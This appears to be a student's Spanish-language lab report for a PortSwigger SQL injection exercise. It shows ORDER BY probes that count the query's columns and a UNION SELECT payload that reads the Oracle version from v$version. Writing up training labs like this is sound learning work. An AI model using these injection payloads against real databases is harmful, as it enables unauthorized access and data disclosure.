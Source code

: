# Reto-Christian_Sangucho
Reto_Laboratio_SQLi

# README_CHRISTIAN_SANGUCHO_DIAZ
# INFORME LABORATORIO https://portswigger.net/

## Laboratorio:
Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

## Objetivo:
Conseguir la versión de Oracle

##Consulta Original: 
SELECT * FROM articles WHERE category = ‘Gifts’


## Consulta Manipulada:
Se busca el número de columnas con las siguientes instrucciones
‘ ORDER BY 1
‘ ORDER BY 2
‘ ORDER BY 3


! [Imagen búsqueda de número de columnas con error](https://github.com/christiansangucho/Reto-Christian_Sangucho/blob/main/Imagen%20b%C3%BAsqueda%20de%20n%C3%BAmero%20de%20columnas%20con%20error.png)
! [Imagen búsqueda de número de columnas](https://github.com/christiansangucho/Reto-Christian_Sangucho/blob/main/Imagen%20b%C3%BAsqueda%20de%20n%C3%BAmero%20de%20columnas.png)

## Consulta para obtener la versión de Oracle
=Gifts' UNION SELECT banner, 'NULL' FROM v$version--

! [Imagen de la Version Oracle]()
